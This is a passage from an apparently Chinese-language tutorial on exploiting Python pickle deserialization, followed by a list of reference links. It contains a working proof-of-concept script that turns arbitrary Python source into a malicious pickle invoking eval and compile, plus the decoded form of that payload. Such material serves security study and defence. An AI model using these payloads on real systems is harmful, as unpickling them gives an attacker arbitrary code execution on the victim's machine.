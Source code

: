 ```python
    """
    sourcecode = file(sourcefile).read()
    payload = "c__builtin__\neval\n(c__builtin__\ncompile\n(%sS'<payload>'\nS'exec'\ntRtR." % (pickle.dumps( sourcecode )[:-4],)
    print payload
    fp =open("poc.pickle","w")
    fp.write(payload)


def usage():
    print "usage: ./%s file\n\nfile\tfile to compile into a pickle string" % argv[0]

if len(argv) == 2:
    print repr(picklecompiler(argv[1]))
else:
    usage()
```


再尝试还原成python代码，基本就是下面的语句

```python
  builtin.eval(builtin.compile(%s,'<payload>’,’exec’)) % cmd
  eval(compile(%s,'<payload>’,’exec’)) % cmd
```



对以上代码生成的payload进行了测试，也只是成功执行了未包含函数和类的python代码，包含函数和类的则未执行成功。



**3.终极payload生成器**



分析到最后，发现其实有老外已经做过更加底层，更加详细的分享，并且也提供了Poc生成脚本

参考：

<http://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_WP.pdf>

地址：

<https://github.com/sensepost/anapickle>

该工具中包含了大量的成熟payload，有了以上知识，不难理解其中的代码，也可以自己进行修改了。
​    

## 0x03 参考

- <http://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_WP.pdf>
- <https://blog.nelhage.com/2011/03/exploiting-pickle/>
- <https://www.leavesongs.com/PENETRATION/zhangyue-python-web-code-execute.html>
- <https://www.cs.uic.edu/~s/musings/pickle/>
- <https://github.com/sensepost/anapickle>
- <https://lincolnloop.com/blog/playing-pickle-security/>
- <https://www.kevinlondon.com/2015/08/15/dangerous-python-functions-pt2.html>
- <https://www.kevinlondon.com/2015/07/26/dangerous-python-functions.html>
- <https://www.cigital.com/blog/python-pickling/>
- <https://gist.github.com/freddyb/3360650>
- <http://blog.knownsec.com/2015/12/sqlmap-code-execution-vulnerability-analysis/>